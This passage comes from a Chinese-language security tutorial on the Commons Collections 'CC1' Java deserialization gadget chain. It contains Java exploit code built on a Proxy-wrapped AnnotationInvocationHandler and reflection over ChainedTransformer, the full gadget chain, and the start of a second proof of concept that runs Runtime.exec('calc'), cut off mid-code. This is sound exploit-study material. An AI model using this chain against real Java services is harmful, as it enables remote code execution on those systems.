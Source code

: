         // 如何调用AnnotationInvocationHandler#invoke方法呢？可以使用代理，将前面获取的AnnotationInvocationHandler对象作为代理的handler
        // 那么只要调用代理对象的任何方法，都将触发AnnotationInvocationHandler对象的invoke方法
        // 获取一个代理对象，将前面获取的AnnotationInvocationHandler实例作为代理对象的InvocationHandler
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
    
        // 最后将proxyMap封装在AnnotationInvocationHandler对象中，作为反序列化入口
        InvocationHandler res = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);
    
        // 最后再把真正的Transformer传入chainedTransformer
        Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(chainedTransformer,trueTransformer);
        // 序列化和反序化测试
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(res);
        new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray())).readObject();
    }

这里给出调用栈，如下图所示：

![CC1调用栈][p6]

***Notice:***  Debug时候，发现Map(Proxy).entrySet()始终无法跳到这个断点，最后是在LazyMap#get中直接打上断点才调试到整个利用链的。

下面给出完整的利用链：

	Gadget chain:
		ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
	
	Requires:
		commons-collections

这边再贴一个P神的原创POC，比ysoserial的要简单：

    @Test
    public void test7() throws Exception{
        // 用P神的链打一下
        Transformer[] trueTransformer = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
    
